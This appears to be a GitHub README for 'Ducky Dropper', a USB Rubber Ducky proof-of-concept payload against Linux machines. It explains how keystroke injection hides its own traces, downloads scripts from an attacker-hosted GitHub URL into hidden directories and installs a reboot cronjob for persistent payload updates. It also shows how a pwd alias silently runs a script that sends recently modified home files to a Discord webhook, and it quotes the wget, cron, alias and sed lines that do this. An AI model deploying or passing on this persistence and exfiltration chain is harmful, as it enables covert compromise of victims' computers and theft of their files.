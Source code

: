 <div align="center">
  
# Ducky Dropper


</div>

REM TITLE: Ducky_Dropper

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux release 2025.2)


## What is Ducky Dropper?
Ducky Dropper is a three part payload:
1. The DuckyScript Payload - [DS_payload.txt](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/DS_payload.txt)
2. The Bash script dropper - [cron_dropper.sh](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/cron_dropper.sh)
3. The Bash script payload - [payload.sh](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/payload.sh)

Ducky Dropper is **proof of concept** payload that uses the `DS_payload.txt` loaded onto the Hak5 USB Rubber Ducky to grab two Bash scripts (`cron_dropper.sh` and `payload.sh`) hosted on an attackers' Github. This uses Github (or could be configured with other hosting platforms) as a way to host payloads to be persistently dropped onto the target system. Once the payloads are downloaded to the target machine, the DuckyScript payload creates two hidden directories to store the respective scripts. It gives the scripts execution permissions, sets the dropper script (`cron_dropper.sh`) as a cronjob to be ran 60 seconds after machine boot, and then creates an alias for the `pwd` command to act as a trigger for payload script (`payload.sh`) execution. The terminal history is unset immediately after the terminal is popped to obfuscate the fact that code was injected, and then closes when done. Total injection time is ~4.5 seconds.

Ducky Dropper is designed so that once injected on the victim machine via the DuckyScript payload, when the target user enters the trigger command (in this case `pwd`, but can be changed, spoken about later), it will execute the `payload.sh` stored in `~/.confg`.

60 seconds after the machine is booted, the dropper becomes active. The dropper will first check to see if the machine is internet connected by sending a `ping` to hak5.org. If internet connectivity is *not* present, the dropper will exit and lay dormant until next boot. If internet connectivity *is* present, the dropper will grab a payload from the configured host site (Github) path. It will then calculate and compare an sha256sum checksum of the newly downloaded payload against the current payload present in `~/.confg` (the payload that is currently executed via the trigger command). If the checksums *match*, the newly downloaded payload is discarded (because it's the same as what is already present). If the checksums *do not* match the payload in `~/.confg` (the current payload) is replaced by the newly downloaded payload and given execution permissions. This allows for updated payloads to be grabbed via the dropper and executed by the trigger command. The attacker is able to maintain persistence on the target system and send it payloads of the attackers' choice to be grabbed on machine boot and executed by the trigger command.

**Configurations for all scripts/payloads can be changed, such as changing the trigger command, payload path for the dropper, etc, and is discussed below.**

---

**Testing Environment**

For this PoC I have set the DuckyScript payload to grab two Bash sripts (`cron_dropper.sh` and `payload.sh`) from Github. These are for demonstration purposes only to show how the payload works. The `payload.sh` is a Bash payload that when executed, checks for internet connectivity, looks for files inside of the users home directory that have been modified in the last 24 hours, if found tarballs them and exfiltrates them to a Discord webhook. If you would like to test this payload, you will need to manually add your Discord webhook to line 37 of the `payload.sh` after the DuckyScript payload has finished its injection. This can be accomplished with the following command: `sed -i '37c\https://discord.com/api/webhooks/your/webhook/here' ~/.confg/*`. This would normally be pre-configuerd in the payload prior to being hosted and grabbed so that when the payload is dropped it is fully configured; but it's not cause PoC.

After the Discord webhook has been configured, running the `pwd` command will silently exfiltrate modified files:
<img width="760" height="151" alt="t2" src="https://github.com/user-attachments/assets/2968a7b0-e95b-46a8-ba61-dc52b4296017" />

Again, please remember that these provided payloads are PoC only, and to not use them in their "demo" configuration to attack or persist on target machines.

---

### DuckyScript Payload (DS_payload.txt)

1. The Ducky will pop a terminal, unset the history file, and then download the two aforementioned Bash scripts (`cron_dropper.sh` and `payload.sh`).
2. Creates two hidden directories inside of the users home folder (`.cronfg` and `.confg`) that place and host the aforementioned Bash scripts.
	- `.cronfg` is the directory responsible for hosting the `cron_dropper.sh` script.
	- `.confg` is the directory responsible for hosting the `payload.sh` script.
   
3. Grants execution permissions to both scripts.
4. Sets up `cron_dropper.sh` as a cronjob to be ran 60 seconds after the target machine is booted.
5. Creates an alias for `pwd` that will execute `pwd` with the expected output *and* executes the `payload.sh` script.
6. Closes terminal to obfuscate activity.

**Configuration:**
- The attackers' Github path to where the dropper is hosted must be defiend in line 8.
	- e.g., `DEFINE #CRON_DROPPER https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/cron_dropper.sh`
	
- The attackers' Github path to where the payload is hosted must be defiend in line 9.
	- e.g., `DEFINE #PAYLOAD https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/payload.sh`

- The trigger command by default is `pwd`, this can be altered by changing the command in line 30.
	- e.g., `STRINGLN alias pwd='pwd; (/home/$USER/.confg/*.sh > /dev/null 2>&1 & )'` (commands are changed here --> `pwd='pwd`)

---

### The Dropper (cron_dropper.sh)

1. The dropper allows attacker persistence to the target machine.
2. Grabs new payloads hosted via Github (or your hosting platform choice) to be passed to and executed by the trigger command.
3. Performs internet connectivity checks before executing the entirety of the payload.
4. Performs a checksum function to identify a change in payload.
5. Places new payload into the `~/.confg` directory to be executed by the trigger command.

**Configuration:**
- The frequency of the dropper "phoning home" for payloads can be altered in the DS_payload.txt. By default, it is sent to grab payloads 60 seconds after machine boot. If you would like to change this, it will need to be configured prior to initial DuckyScript payload injection. This can be altered on line 26 of the `DS_payload.txt` file.
	- e.g., `"@reboot sleep 60 && ~/.cronfg/cron_dropper.sh"` - change the `@reboot sleep 60` to the desired configuration.
	
- The source of where the dropper grabs payloads from cannot be changed post DuckyScript injection.
	- e.g., `wget -q -P /home/$user/.confg_tmp https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/payload.sh` - The dropper will always look to this URL path for new payloads. To create updated payloads, you would simply edit the code of `/payload.sh` on the hosting platform. It is important to note, do not change the URL path/file name after initial DuckyScript injection, this could break the hash function and cause issues.
	
---

### The Payload (payload.sh)
(demo payload)

 When the `pwd` command is entered, the following happens:
1. Checks for internet connectivity, if not present, exits, else:
2. Search for files in the target users home directory that have been modified in the last 24 hours.
3. If files, tarballs them, and then exfiltrates them to a Discord webhook.
As this is a demo payload, you will need to manually configure the Discord webhook (explained above in the testing environment section).

---

**A note on configuration of payload.sh and cron_dropper.sh**

It is important to note that whatever choice of naming convention used to name the payloads and dropper, they should be used consistently (so pick something you like). This is to prevent possible errors with the checksum process. As an example, if the intiially downloaded payload is `payload123.sh`, then all subsequent payloads grabbed by the dropper should also be named `payload123.sh`.

Also, if you would like to change the name of the dropper, the change must also be done in the DS_payload.txt `"@reboot sleep 60 && ~/.cronfg/cron_dropper.sh"` (line 26) to ensure the cronjob calls to the correct dropper.

All naming conventions of files should be use consistently accross all three payloads to ensure the prevention of errors.
